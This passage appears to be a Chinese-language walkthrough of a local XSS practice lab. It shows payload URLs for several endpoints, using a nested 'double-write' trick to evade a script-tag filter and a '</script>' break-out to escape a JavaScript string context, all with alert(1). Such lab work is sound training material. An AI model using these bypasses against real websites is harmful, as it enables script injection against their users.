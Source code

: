 ```
http://127.0.0.1/xss/replace/nocase?name=%3Cscript%3Ealert(1)%3C/script%3E
```

发现`<script>`和`</script>`都被过滤掉了

这里直接双写绕过

```
http://127.0.0.1/xss/replace/nocase?name=<scr<script>ipt>alert(1)</scr</script>ipt>
```



### XSS : 存在于JS代码中(字符串中)

还是一样，直接提交

```
http://127.0.0.1/xss/js/in-str?name=%3Cscript%3Ealert(1)%3C/script%3E
```

![image-20250223144704135](../../_media/image-20250223144704135.png)

直接构造payload

```
http://127.0.0.1/xss/js/in-str?name=</script><script>alert(1)</script>
```

成功弹窗



### XSS : 存在于JS代码中(字符串中2)

一样先提交初始payload

```
http://127.0.0.1/xss/js/in-str2?name=<script>alert(1)</script>
```

![image-20250223144935009](../../_media/image-20250223144935009.png)

直接构造payload：（还是一样的）

```
http://127.0.0.1/xss/js/in-str2?name=</script><script>alert(1)</script>
```
